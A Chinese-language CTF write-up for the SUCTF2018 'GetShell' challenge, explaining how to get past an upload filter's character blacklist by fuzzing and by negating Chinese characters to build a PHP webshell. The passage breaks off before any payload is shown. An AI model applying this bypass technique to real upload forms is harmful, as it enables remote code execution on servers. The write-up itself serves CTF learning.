




# SUCTF2018-GetShel

这题看题目就知道要我们上传webshell，首先启动靶机访问，显示can you get shell?。



然后查看网页源代码，发现一个跳转链接



点击跳转到了一个upload页面



给了一部分源码

```
if($contents=file_get_contents($_FILES["file"]["tmp_name"])){
    $data=substr($contents,5);
    foreach ($black_char as $b) {
        if (stripos($data, $b) !== false){
            die("illegal char");
        }
    }     
} 
```

代码审计

大概就是截取文件中前5个字符以后的内容，然后在将黑名单中的字符与截取后的内容的进行匹配。所以我们需要通过fuzz测试来测试出过滤了哪些字符，然后再构造shell，注意前面要5个占位符，因为源码会将前五个字符截掉，不然我们的测试就没有效果。

fuzz字典生成脚本

```
for i in range(32,127):
    print(chr(i))
```



## 汉字字符取反构造webshell

### payload 1（system）

发现主要过滤了数字、字母等字符。但是发现~可以利用。我们可以利用汉字字符取反来得到字母，php标签被过滤了但是没有关系，前5个字符不会参与检查。我们这里使用短标签，<?php                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         